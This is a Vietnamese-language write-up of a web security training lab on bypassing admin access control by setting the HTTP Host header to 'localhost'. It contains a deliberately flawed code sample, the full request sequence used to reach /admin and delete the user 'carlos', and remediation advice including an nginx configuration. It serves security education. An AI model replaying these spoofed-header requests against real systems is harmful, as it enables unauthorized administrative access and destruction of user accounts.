





## Thông tin bài Lab
* **Tên bài Lab**: Host header authentication bypass
* **Chuyên đề**: HTTP Host Header attacks / Access Control Bypass
* **Mức độ**: Apprentice
* **Mục tiêu**: Bypass cơ chế xác thực trang quản trị `/admin` và xóa tài khoản người dùng `carlos`.

---

## 1. Kiến thức nền tảng

Trong các hệ thống phân quyền web, trang quản trị thường được thiết lập rào cản truy cập chỉ cho phép các yêu cầu xuất phát từ mạng nội bộ hoặc máy chủ cục bộ. Vấn đề nảy sinh khi hệ thống xác định danh tính và quyền hạn của client dựa vào dữ liệu tầng ứng dụng thay vì kiểm tra ở tầng kết nối mạng.

### 1.1. Bản chất của header Host trong giao thức HTTP

Header Host được chuẩn hóa từ phiên bản HTTP/1.1 nhằm phục vụ cơ chế Virtual Hosting, cho phép một máy chủ vật lý lưu trữ và phân phối nhiều tên miền trên cùng một địa chỉ IP. Header này hoàn toàn nằm ở tầng ứng dụng và do client toàn quyền kiểm soát.

### 1.2. Sai lầm trong kiến trúc xác thực và phân quyền

Để xác định client có phải là người dùng cục bộ hay không, quy trình chuẩn đòi hỏi máy chủ phải kiểm tra địa chỉ IP ở tầng kết nối mạng thông qua Socket TCP. Tuy nhiên, lập trình viên thường mắc lỗi sử dụng giá trị chuỗi của header Host để đối chiếu:

```javascript
// Mã nguồn xử lý sai lầm phổ biến
if (request.headers['host'] === 'localhost' || request.headers['host'] === '127.0.0.1') {
    allowAdminAccess();
} else {
    denyAccess("Admin interface only available to local users");
}
```

Vì gói tin TCP từ Internet vẫn được định tuyến đến đúng địa chỉ IP máy chủ, khi vào đến tầng xử lý của ứng dụng, chuỗi `Host: localhost` khiến hệ thống lầm tưởng request bắt nguồn từ chính máy chủ.

---

## 2. Mô hình tấn công

### 2.1. Nguyên nhân và điều kiện phát sinh lỗ hổng

- **Thiếu sót xác thực:** Ứng dụng đưa ra giả định về mức đặc quyền của người dùng chỉ dựa vào giá trị chuỗi của header Host.
- **Cấu hình Web Server lỏng lẻo:** Hệ thống tiếp nhận và chuyển tiếp các request có giá trị Host khác với tên miền chính thức mà không kiểm tra hay từ chối gói tin.
- **Bỏ qua kiểm tra phiên đăng nhập:** Chức năng quản trị không yêu cầu xác thực bằng Session Token hợp lệ mà chỉ kiểm tra định danh giả mạo từ header.

### 2.2. Sơ đồ luồng dữ liệu tấn công

```text
[ Attacker từ Internet ]
       │
       │  Gửi request đến IP Public của server:
       │  GET /admin HTTP/2
       │  Host: localhost             <── Giả mạo định danh nội bộ
       ▼
[ Web Server ]
       │
       │  Tiếp nhận gói tin TCP và chuyển vào ứng dụng xử lý
       ▼
[ Bộ lọc Access Control ]
       │
       │  Đọc Host header == 'localhost' ──► Xác thực hợp lệ!
       ▼
[ Giao diện Quản trị /admin ]
       │
       │  Trả về quyền quản trị và thực thi lệnh xóa người dùng
       ▼
[ Trả về 200 OK / 302 Found cho Attacker ]
```

---

## 3. Khai thác lỗ hổng

Quá trình thực nghiệm được triển khai tuần tự theo 5 bước:

### Bước 1: Thu thập thông tin từ robots.txt

Gửi request kiểm tra file cấu hình `GET /robots.txt HTTP/2` trên Burp Suite Repeater. Phản hồi xác định đường dẫn quản trị bị ẩn:

```text
User-agent: *
Disallow: /admin
```



---

### Bước 2: Xác nhận cơ chế phòng thủ tại /admin

Truy cập trực tiếp vào đường dẫn vừa phát hiện: `GET /admin HTTP/2` với header Host mặc định của bài lab. Hệ thống từ chối truy cập bằng phản hồi:

```http
HTTP/2 401 Unauthorized
Content-Type: text/html; charset=utf-8

Admin interface only available to local users
```



---

### Bước 3: Thay đổi Host header để bypass Access Control

Trong tab Repeater, thay đổi giá trị của header Host thành `localhost`:

```http
GET /admin HTTP/2
Host: localhost
Cookie: session=bvTBP6Fu9K0cjcZJqJbpxfhkNPCiTMCd; ...
User-Agent: Mozilla/5.0...
```

Kết quả: Máy chủ phản hồi mã `HTTP/2 200 OK`, vượt qua bước kiểm soát quyền hạn thành công.



---

### Bước 4: Phân tích mã nguồn trang quản trị

Kiểm tra nội dung HTML trả về ở Bước 3, xác định cấu trúc danh sách tài khoản và liên kết xóa người dùng:

```html
<section>
    <h1>Users</h1>
    <div>
        <span>wiener - </span>
        <a href="/admin/delete?username=wiener">Delete</a>
    </div>
    <div>
        <span>carlos - </span>
        <a href="/admin/delete?username=carlos">Delete</a>
    </div>
</section>
```



---

### Bước 5: Thực thi xóa tài khoản carlos và hoàn thành mục tiêu

Gửi request xóa người dùng carlos, tiếp tục giữ nguyên header `Host: localhost`:

```http
GET /admin/delete?username=carlos HTTP/2
Host: localhost
Cookie: session=bvTBP6Fu9K0cjcZJqJbpxfhkNPCiTMCd; ...
```

Máy chủ xử lý thành công, trả về phản hồi chuyển hướng `HTTP/2 302 Found` với tiêu đề `Location: /admin`. Tài khoản carlos đã bị xóa khỏi hệ thống.



Kiểm tra lại trang web trên trình duyệt, thông báo giải quyết bài lab xuất hiện.


---

## 4. Biện pháp khắc phục

### 4.1. Khắc phục tại tầng Ứng dụng

- **Không sử dụng Host header để phân quyền:** Tuyệt đối không dựa vào bất kỳ trường HTTP header nào do client gửi lên để đưa ra quyết định cấp quyền.
- **Triển khai Role-Based Access Control:** Trang quản trị bắt buộc phải được bảo vệ bằng cơ chế xác thực phiên đăng nhập của tài khoản có vai trò quản trị viên.
- **Xác thực IP qua Socket mạng:** Trường hợp bắt buộc giới hạn truy cập theo mạng nội bộ, chỉ sử dụng địa chỉ IP lấy từ kết nối TCP thực tế.

### 4.2. Cấu hình bảo vệ tại Web Server và Reverse Proxy

- **Thiết lập Virtual Host mặc định:** Cấu hình Web Server chặn hoặc đóng kết nối ngay lập tức đối với các request chứa Host header lạ không nằm trong danh sách tên miền hợp lệ.
- **Cấu hình an toàn cho Nginx:** Sử dụng server block mặc định để từ chối các yêu cầu không khớp tên miền:

```nginx
server {
    listen 80 default_server;
    listen 443 ssl default_server;
    server_name _;
    return 444; # Đóng kết nối không phản hồi
}
```
